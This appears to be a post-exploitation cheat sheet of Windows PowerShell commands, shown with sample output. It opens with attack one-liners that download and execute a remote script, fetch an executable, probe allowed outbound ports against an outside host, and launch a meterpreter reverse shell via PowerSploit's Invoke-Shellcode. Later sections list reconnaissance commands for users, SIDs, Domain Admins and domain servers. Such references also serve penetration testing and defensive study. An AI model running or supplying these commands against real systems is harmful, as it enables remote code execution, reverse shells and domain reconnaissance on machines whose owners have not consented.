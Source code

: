 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows Powershell Commands and Scripts for Post Exploitation

# One liners

**Download and Execute Remote Powershell Script**

```
iex (New-Object Net.WebClient).DownloadString("http://host/file.txt")
```

**Download and Save File**

```
(new-object System.Net.WebClient).Downloadfile('http://host/file.exe', 'file.exe')
```

**Enumerate Allowed Outbound Ports 1-1024 via [securitypadawan.blogspot.com](http://securitypadawan.blogspot.com/2013/04/quickly-determine-allowed-outbound-ports.html)**

```
$ErrorActionPreference = "silentlycontinue"; 1..1024 | % {$req = [System.Net.WebRequest]::Create("http://letmeoutofyour.net:$_"); $req.Timeout = 600; $resp = $req.GetResponse(); $respstream = $resp.GetResponseStream(); 
$stream = new-object System.IO.StreamReader $respstream; $out = $stream.ReadToEnd(); if ($out.trim() -eq "w00tw00t"){echo "$_ Allowed out"}}
```

**Reverse Shell Using [PowerSploit's Invoke-Shellcode](https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)**

```
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.10 -Lport 443 -Force
```

----

# Commands with Sample Output
## Hardware
### Get BIOS Information
 * **Command with arguments**: `gwmi win32_bios`
 * **Description**: Retrieves BIOS information including system serial number.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32_bios<br>SMBIOSBIOSVersion : 6.00<br>Manufacturer      : Phoenix Technologies LTD<br>Name              : PhoenixBIOS 4.0 Release 6.0<br>SerialNumber      : VMware-56 4d 9b 0f 26 ba 8c f9-6e 7a 1e 33 5d 3c f0 dc<br>Version           : INTEL  - 6040000</code></div> 
   
### Get Drive Information
 * **Command with arguments**: `[System.IO.DriveInfo]::GetDrives()`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> [System.IO.DriveInfo]::GetDrives()<br><br>Name               : C:\<br>DriveType          : Fixed<br>DriveFormat        : NTFS<br>IsReady            : True<br>AvailableFreeSpace : 55568087552<br>TotalFreeSpace     : 55568087552<br>TotalSize          : 159876850304<br>RootDirectory      : C:\<br>VolumeLabel        : <br><br>Name               : D:\<br>DriveType          : CDRom<br>DriveFormat        : <br>IsReady            : False<br>AvailableFreeSpace : <br>TotalFreeSpace     : <br>TotalSize          : <br>RootDirectory      : D:\<br>VolumeLabel        : <br><br>Name               : G:\<br>DriveType          : Removable<br>DriveFormat        : <br>IsReady            : False<br>AvailableFreeSpace : <br>TotalFreeSpace     : <br>TotalSize          : <br>RootDirectory      : G:\<br>VolumeLabel        : <br><br>Name               : V:\<br>DriveType          : Network<br>DriveFormat        : NTFS<br>IsReady            : True<br>AvailableFreeSpace : 259182640616<br>TotalFreeSpace     : 259182640616<br>TotalSize          : 827361812256<br>RootDirectory      : V:\<br>VolumeLabel        : TestMappedDrive</code></div> 

## User Information
### Display Username, SID, Last Used
 * **Command with arguments**: `gwmi win32_userprofile | select -unique @{name="Name";expression={$_.__server}},@{name="SID";expression={$_.sid}},@{name="LastUseTime";expression={$_.converttodatetime($_.lastusetime)}},localpath | ft -auto`
 * **Description**: Retrieves information about system users.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32\_userprofile | select -unique @{name="Name";expression={$\_.\_\_server}},@{name="SID";expressi<br>on={$\_.sid}},@{name="LastUseTime";expression={$\_.converttodatetime($\_.lastusetime)}},localpath | ft -auto<br><br>Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SID&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LastUseTime&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;localpath<br>----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-----------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------<br>WIN-244VDGE5OGH&nbsp;S-1-5-21-1319606305-3131390644-2280705280-1000&nbsp;4/13/2012&nbsp;7:52:02&nbsp;PM&nbsp;C:\Users\johndoe<br>WIN-244VDGE5OGH&nbsp;S-1-5-20&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\ServiceProfiles\Netwo...<br>WIN-244VDGE5OGH&nbsp;S-1-5-19&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\ServiceProfiles\Local...<br>WIN-244VDGE5OGH&nbsp;S-1-5-18&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\system32\config\syste...</code></div> 
   
### Translate SID to Username
 * **Command with arguments**: `((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-19")).translate([System.Security.Principal.NTAccount])).value`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> ((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-1319606305-3131390644-2280705280-<br>1000")).translate([System.Security.Principal.NTAccount])).value<br>WIN-244VDGE5OGH\johndoe</code></div> 
   
 ## Using the PowerShell Active Directory Modules
 ### Via https://www.trustedsec.com/uncategorized/powershell-reconnaissance/
 ### Setting Credentials 
 * **Command with arguments**: `$cred = Get-Credential`
 * **Notes**: These following commands require the Powershell Active Directory Modules to be installed. Steps to install for Win7 are detailed [here] (http://blogs.msdn.com/b/rkramesh/archive/2012/01/17/how-to-add-active-directory-module-in-powershell-in-windows-7.aspx) 
   
 ### Query to List "Domain Admins" 
 * **Command with arguments**: `Get-ADGroupMember -Credential $cred -server pwnt.com "Domain Admins"`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>distinguishedName : CN=Administrator,CN=Users,DC=pwnt,DC=com<br>name              : Administrator<br>objectClass       : user<br>objectGUID        : 1fd60ff8-07a4-4c6e-9a1e-7cd0d7bb97db<br>SamAccountName    : Administrator<br>SID               : S-1-5-21-2027135834-1792351174-2509185371-500</code></div> 
   
 ### Enumerate All Servers on Domain 
 * **Command with arguments**: `Get-ADComputer -Credential $cred -server pwnt.com -LDAPFilter "(&(objectCategory=computer)(opera
tingSystem=*Server*))" |select name`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>name<br>----<br>PWNT-DC<br>
Exchange1<br>
SharePoint1</code></div> 